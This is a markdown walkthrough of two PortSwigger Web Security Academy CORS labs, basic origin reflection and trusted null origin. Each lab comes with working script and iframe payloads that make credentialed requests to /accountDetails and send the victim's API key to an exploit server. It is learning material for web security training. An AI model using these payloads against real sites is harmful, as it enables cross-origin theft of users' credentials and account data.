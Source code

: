 # CORS

- https://portswigger.net/web-security/cors
- https://portswigger.net/web-security/cors/same-origin-policy
- https://portswigger.net/web-security/cors/access-control-allow-origin

## CORS vulnerability with basic origin reflection

When `Origin` header is added, it is being reflected to `ACAO` header either way. Accessing the response is acceptable. Only thing is to specify including credentials (cookies).

Deliver to victim:

```
<script>
const tmp = async () => {
    var r = await fetch("https://0a5300a704e0f23c82a3470c004d003f.web-security-academy.net/accountDetails", {credentials: "include"}); 
    var j = await r.json(); 
    fetch("https://exploit-0a6b001f047ff2d5823d469b01b8001c.exploit-server.net/exploit?q=" + j.apikey)
}
tmp()
</script>
```

Above request add `Origin` header automatically, which is reflected into `ACAO` header.

From what I assume, if there is no `Access-Control-Allow-Origin` in the response, results of it could not be access from the js. So here making request with `mode: "no-cors"`, makes it not append `Origin` header, which prevent it from being reflected into `ACAO`, which stops js execution

Solution via portwigger:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

## CORS vulnerability with trusted null origin

Playing around with `GET /accountDetails` request:
 - Not specifing the `Origin` header, respond without `ACAO` header
 - Specifing `https://0ab900a703040b268435609a00610045.web-security-academy.net` as `Origin` reflects it in `ACAO`
 - Specifing `Test` as `Origin` respond without `ACAO` header
 - Specifing `null` as `Origin` reflects it in `ACAO`

So triggering the request with `Origin: null` will allow us to access the data.

Including our script in this `iframe` will cause the origin to be `null`. Deliver this to the victim:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
const tmp = async () => {
    var r = await fetch('https://0ab900a703040b268435609a00610045.web-security-academy.net/accountDetails', {credentials: 'include'})
    var j = await r.json()
    fetch('https://exploit-0a650065038d0bee84425f1301cb00c5.exploit-server.net/exploit?q=' + j.apikey)
}
tmp()
</script>"></iframe>
```

Alternative Portswigger solution:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
